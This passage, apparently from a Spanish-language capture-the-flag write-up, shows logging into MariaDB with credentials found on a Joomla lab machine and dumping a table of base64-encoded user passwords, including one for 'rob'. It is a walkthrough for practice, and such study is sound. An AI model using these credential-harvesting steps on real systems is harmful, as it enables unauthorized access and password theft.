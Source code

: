 Ingresamos a mysql y listamos las bases de datos.

```bash
mysql -u joomla --password=babyjoker -h localhost

MariaDB [joomla_db]> show databases;
+--------------------+
| Database           |
+--------------------+
| batjoke            |
| information_schema |
| joomla_db          |
| mysql              |
| performance_schema |
+--------------------+
5 rows in set (0.001 sec)
```

En la base de datos `batjoke`{: .filepath}, encontramos la password de `rob`.

```bash
MariaDB [joomla_db]> use batjoke;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [batjoke]> show tables;
+-------------------+
| Tables_in_batjoke |
+-------------------+
| equipment         |
| taskforce         |
+-------------------+
2 rows in set (0.000 sec)

MariaDB [batjoke]> select * from equipment;
Empty set (0.000 sec)

MariaDB [batjoke]> select * from taskforce;
+----+---------+------------+---------+----------------------------------------------+
| id | type    | date       | name    | pswd                                         |
+----+---------+------------+---------+----------------------------------------------+
|  1 | Soldier | 2020-06-14 | Bane    | YmFuZWlzaGVyZQ==                             |
|  2 | Soldier | 2020-06-14 | Aaron   | YWFyb25pc2hlcmU=                             |
|  3 | Soldier | 2020-06-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |
|  4 | Soldier | 2020-06-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |
|  6 | Soldier | 2020-06-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ |
|  7 | Soldier | 2020-06-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |
+----+---------+------------+---------+----------------------------------------------+
6 rows in set (0.000 sec)

MariaDB [batjoke]>
```
